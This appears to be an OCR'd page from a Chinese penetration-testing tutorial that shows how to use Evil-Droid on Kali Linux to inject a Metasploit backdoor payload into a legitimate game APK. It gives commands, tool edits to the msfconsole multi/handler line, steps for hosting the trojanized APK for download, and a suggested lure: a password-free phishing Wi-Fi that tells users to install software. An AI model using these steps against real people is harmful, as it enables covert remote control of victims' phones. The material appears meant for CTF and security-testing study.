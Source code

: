 > 其他功能自测，关于渗透思路，可以将 payload 注入到正常的 apk 中，构建一个钓鱼 wifi，比如说
> 设置一个没有密码的钓鱼 wifi，需要下载软件才可以正常上网，用户下载运行软件后即被远程控制。
> 安卓客户端渗透目前来说已经是 CTF 中的一个非常重要的分类了，但是通常的它更多的是二进制层
> 面的博弈，如果仅仅是在 apk 中注入后门可能非常简单，但通常需要的是一系列的攻击手段来辅助完成
> 的。所以这里仅做简单介绍，并不深入研究。

###### 注入到隐藏游戏 APP 中（请勿在 Kali 2019.4 版本中操作，可能存在兼容问题。）

```
禁用 IPv6

echo "net.ipv6.conf.eth0.disable_ipv6 = 1" >> /etc/sysctl.conf
sysctl -p
ifconfig
```

```
安装 Evil-Droid 工具
上传 master 到 Kali。注意文件名没有.zip 后缀所以不能补齐，需要手工输入。

unzip master
cd Evil-Droid-master/
程序默认 ping google.com 来判断是否联网，国内是不能正常访问的，修改为百度。

vim evil-droid
改：40 ping -c 1 google.com > /dev/null 2>&1
为：40 ping -c 1 baidu.com > /dev/null 2>&1

改：删除标红字段,该参数会报错。
649 xterm -T "EVIL-DROID MULTI/HANDLER" -fa monaco -fs 10 -bg black -e 
"msfconsole -x 'use multi/handler; set LHOST $lanip; set LPORT $LPORT; set PAYLOAD 
$PAYLOAD; exploit'"
为：
649 xterm -T "EVIL-DROID MULTI/HANDLER" -fs 10 -bg black -e "msfconsole -x 'use 
multi/handler; set LHOST $lanip; set LPORT $LPORT; set PAYLOAD $PAYLOAD; exploit'"

chmod +x evil-droid		#添加执行权限
```

上传游戏安装包，游戏为 3D 摩托飞车
└─# rz
升级 apktool.jar，该工具用于逆向 apk 文件。它可以将资源解码，并在修改后可以重新构建它们。
它还可以执行一些自动化任务，例如构建 apk。工具包中默认版本为 2.2 已经过期需要升级至 2.4。
└─# cd tools/
└─# rm -rf apktool.jar
└─# rz
以下所有操作直接在 Kali 中进行，请勿使用 xshell 连接。
└─# cd .. 
└─# ./evil-droid
默认会检查依赖，如果没找到会自动安装。
点击确认后会自动启动数据库和 apache
选择 3
生成 payload，生成方式与 msfvenom 一致。
设置端口号
Payload apk 名称保持默认
根据需求选择 payload，一般选择第四个即可。
选择 Evil-Droid-master 目录下的 3d.apk
开始对 APK 进行注入后门
生成一个密钥，编译 apk 程序所需。
生成带有后门的 APK 程序
APK 存放路径/root/Evil-Droid-master/evilapk/evilapk.apk
你可以通过 sz 到本地发送给手机，也可以复制到/var/www/html/使用 http 方式下载到手机，前
面程序也帮我们开启了 apache2，你可以通过任意方式将 APK 发送至手机进行安装。（安装过程这里不
过多赘述，和上面 MSF 生成的程序安装并无不同。）
点击确定后会自动打开 MSF 进行侦听。
如果嫌弃 MSF 的窗口太小可以关闭手动启动侦听。